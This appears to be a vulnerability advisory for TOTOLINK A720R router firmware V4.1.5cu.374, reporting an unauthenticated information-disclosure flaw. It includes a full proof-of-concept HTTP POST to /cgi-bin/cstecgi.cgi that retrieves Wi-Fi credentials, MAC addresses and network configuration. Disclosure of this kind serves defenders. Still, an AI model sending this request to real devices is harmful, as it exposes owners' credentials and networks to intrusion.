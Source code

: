 # Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/203/ids/36.html

# Affected version

V4.1.5cu.374

# Vulnerability details

The TOTOLINK A720R V4.1.5cu.374 firmware contains an unauthenticated sensitive information disclosure vulnerability. An attacker can exploit this flaw by sending a crafted POST request with the parameter `{"topicurl":"getSysStatusCfg"}` to `/cgi-bin/cstecgi.cgi`, allowing unauthorized access to sensitive system information such as firmware version, MAC addresses, Wi-Fi credentials, LAN/WAN IP configurations, and other critical device details. This could lead to unauthorized network access or further exploitation.

# Poc

```http
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.140.79
Content-Length: 30
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36 Edg/135.0.0.0
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.140.79
Referer: http://192.168.140.79/basic/index.html?time=1745238634622
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: keep-alive

{"topicurl":"getSysStatusCfg"}
```

![图 0](img/e71eeaeef74cd0b3497d8e6918541bd5bcc6e360ab38deed5fcc0efaace2b53e.png)  

